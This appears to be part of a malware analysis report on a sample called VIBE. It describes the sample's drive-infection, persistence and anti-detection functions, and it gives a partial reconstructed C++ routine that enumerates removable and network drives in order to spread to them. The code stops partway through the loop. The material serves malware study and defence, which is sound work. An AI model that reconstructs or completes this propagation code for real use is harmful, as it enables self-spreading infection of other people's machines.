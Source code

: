 **Error Handling**:
- Checks for existing files before creation
- Validates file operations
- Manages file attributes carefully
- Implements fallback mechanisms

**Relationships to Other Functions**:
- Uses `VIBE::generate_random_filename` for obfuscation
- Works with `VIBE::create_persistence_shortcut`
- Supports `VIBE::download_and_execute_additional_payload`
- Part of the broader infection and persistence system

**Security Implications**:
- Highly effective propagation mechanism
- Multiple infection vectors
- Sophisticated anti-detection techniques
- Persistent system compromise
- Automated spreading capabilities

This function represents a sophisticated directory infection routine that combines multiple techniques for malware propagation, persistence, and anti-detection. It demonstrates advanced malware capabilities including removable drive infection, system directory manipulation, and automated spreading mechanisms.

### VIBE::enumerate_and_infect_drives

**Purpose**: A continuous drive enumeration and infection routine that targets removable and network drives while implementing specific drive filtering and error handling mechanisms.

**Location**: Function located at address 0x4205328

**Functionality**:
- Continuously enumerates system drives
- Targets removable (Type 2) and network (Type 4) drives
- Explicitly skips drives A:, B:, and C:
- Implements volume information gathering
- Calls `infect_target_directory` with appropriate parameters
- Includes error handling for drive access

**Implementation Details**:
```cpp
DWORD WINAPI enumerate_and_infect_drives() {
    char module_path[0x104];
    memset(module_path, 0, 0x104);
    GetModuleFileNameA(NULL, module_path, 0x104);
    
    // Get original file size for later comparison
    FILE* self = fopen(module_path, "rb");
    if (self) {
        fseek(self, 0, SEEK_END);
        g_original_size = ftell(self);
        fclose(self);
    }
    
    while (true) {
        char drive_strings[0x68];
        char volume_name[0x105];
        memset(drive_strings, 0, 0x68);
        memset(volume_name, 0, 0x105);
        
        // Get list of all drives
        GetLogicalDriveStringsA(0x68, drive_strings);
        char* current_drive = drive_strings;
        
        while (*current_drive) {
            UINT drive_type = GetDriveTypeA(current_drive);
            
```